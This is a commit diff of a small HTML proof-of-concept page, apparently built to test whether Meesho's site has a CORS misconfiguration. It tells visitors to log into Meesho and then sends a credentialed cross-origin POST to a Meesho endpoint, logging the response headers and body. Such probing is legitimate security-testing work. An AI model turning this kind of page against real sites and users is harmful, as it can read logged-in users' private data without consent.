

Before and after one commit to honestcorrupt/meeshoCORS__check, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor CORS test HTML structure and script

```diff
--- a/index.html
+++ b/index.html
@@ -1,49 +1,55 @@
 <!DOCTYPE html>
 <html>
-<head><title>Meesho CORS Debug</title></head>
+<head><title>Meesho CORS Test</title></head>
 <body>
-<h2>Meesho CORS Test - Check Console + Network Tab</h2>
-<button onclick="testCORS()">Run Test</button>
+<h2>Meesho CORS PoC</h2>
+<p><strong>1. Log into Meesho first</strong><br>
+2. Click button below<br>
+3. Check Console + Network tab</p>
+
+<button onclick="runTest()">Run CORS Test</button>
 
 <script>
-async function testCORS() {
-  const url = "https://www.meesho.com/zMrsM4/K1zIxg/4/c3d/L0g4NSwh/Oauuppi50brE0JEGiw/ATJQAQ/ZD/JXERNKOUsB";
+async function runTest() {
+  console.clear();
 
-  console.clear();
-  console.log("🔍 Testing from:", window.location.origin);
+  // === CHANGE THIS URL TO A FRESH ONE ===
+  const targetUrl = "https://www.meesho.com/zMrsM4/K1zIxg/4/c3d/L0g4NSwh/Oauuppi50brE0JEGiw/ATJQAQ/ZD/JXERNKOUsB";
 
-  // 1. Test OPTIONS preflight
+  console.log("🔍 Testing from origin:", window.location.origin);
+  console.log("Target:", targetUrl);
+
+  // Try OPTIONS preflight
   try {
-    console.log("→ Sending OPTIONS preflight...");
-    const pre = await fetch(url, {
+    const preflight = await fetch(targetUrl, {
       method: "OPTIONS",
       headers: {
         "Origin": window.location.origin,
         "Access-Control-Request-Method": "POST",
-        "Access-Control-Request-Headers": "Content-Type"
+        "Access-Control-Request-Headers": "content-type"
       }
     });
-    console.log("Preflight Status:", pre.status);
-    console.log("Preflight ACAO:", pre.headers.get("access-control-allow-origin"));
-    console.log("Preflight ACAC:", pre.headers.get("access-control-allow-credentials"));
-  } catch(e) { console.error("Preflight failed:", e); }
+    console.log("✅ Preflight Status:", preflight.status);
+    console.log("ACAO:", preflight.headers.get("access-control-allow-origin"));
+    console.log("ACAC:", preflight.headers.get("access-control-allow-credentials"));
+  } catch(e) {
+    console.error("❌ Preflight blocked:", e.message);
+  }
 
-  // 2. Try actual POST
+  // Try actual request
   try {
-    console.log("→ Sending POST...");
-    const res = await fetch(url, {
+    const res = await fetch(targetUrl, {
       method: "POST",
       credentials: "include",
-      headers: { "Content-Type": "text/plain;charset=UTF-8" },
-      body: "test"
+      headers: { "Content-Type": "text/plain" },
+      body: "{}"
     });
-
     console.log("POST Status:", res.status);
     console.log("Response ACAO:", res.headers.get("access-control-allow-origin"));
-    const data = await res.text();
-    console.log("Response Body:", data);
+    const text = await res.text();
+    console.log("Response Body:", text);
   } catch(e) {
-    console.error("POST failed:", e.message);
+    console.error("❌ Main request failed:", e.message);
   }
 }
 </script>
```
